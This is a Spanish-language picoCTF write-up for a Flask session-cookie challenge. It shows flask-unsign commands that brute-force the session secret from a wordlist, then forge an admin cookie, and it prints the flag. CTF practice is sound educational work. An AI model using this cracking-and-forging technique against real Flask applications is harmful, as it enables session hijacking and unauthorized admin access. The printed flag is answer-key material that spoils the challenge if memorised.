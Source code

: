 Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

Hints:

1. How secure is a flask cookie?

## Solución 1:

Usando flask-unsign para encontrar la llave para cifrar otra cookie de itsdangerous Flask, metiendo como parametro wordlist todas las posibles cookies en un txt y la cookie que generó con 'snickerdoodle':

```
┌──(kali㉿kali)-[~]
└─$ flask-unsign --unsign --wordlist cookies.txt --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-n40Q.eFoMuupg0zKvOzO9qrcI14hBJHw"
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-n8Aw.IMDN6jipuMBDE4GknFS9Oofd8oM


**Flag**: `picoCTF{pwn_4ll_th3_cook1E5_3646b931}`
```